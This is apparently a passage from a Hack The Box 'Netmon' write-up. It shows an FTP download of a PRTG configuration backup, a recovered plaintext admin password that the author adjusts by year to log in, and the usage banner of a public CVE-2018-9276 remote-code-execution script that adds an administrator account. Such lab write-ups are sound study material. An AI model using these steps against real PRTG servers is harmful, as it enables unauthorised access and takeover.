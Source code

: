 ```
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
04-20-20  02:46AM              1637516 PRTG Graph Data Cache.dat
02-25-19  11:00PM       [DIR](DIR)          Report PDFs
02-03-19  12:18AM       [DIR](DIR)          System Information Database
02-03-19  12:40AM       [DIR](DIR)          Ticket Database
02-03-19  12:18AM       [DIR](DIR)          ToDo Database
226 Transfer complete.
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 3.33 secs (338.2911 kB/s)
```
Downloaded that to my machine.

`PRTG Configuration.old.bak` Found the password.
```
 [/dbcredentials](/dbcredentials)
            [dbpassword](dbpassword)
              [!-- User: prtgadmin --](!-- User: prtgadmin --)
              PrTg@dmin2018
            [/dbpassword](/dbpassword)
```
I tried login again with these creds but still I get `Your login has failed. Please try again!`

After some enumeration I changed it to `PrTg@dmin2019` because the `.bak` file is from `2018` which is old and it worked:


![e5d71a21665c48abbed3d85dcb94ba31.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-netmon/acbed2e387664053a200a0b666300cc4.png)

## Getting shell:

We can now use the exploit we found already.
>[https://www.exploit-db.com/exploits/46527](https://www.exploit-db.com/exploits/46527)

So according to the exploit, once we authenticated, we need to get those cookies and give it to the script and it will create a new user for us as `pentest`.
```
root@w0lf:~/CTF/HTB/Boxes/Netmon# ./exploit.sh 

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once authenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 

```
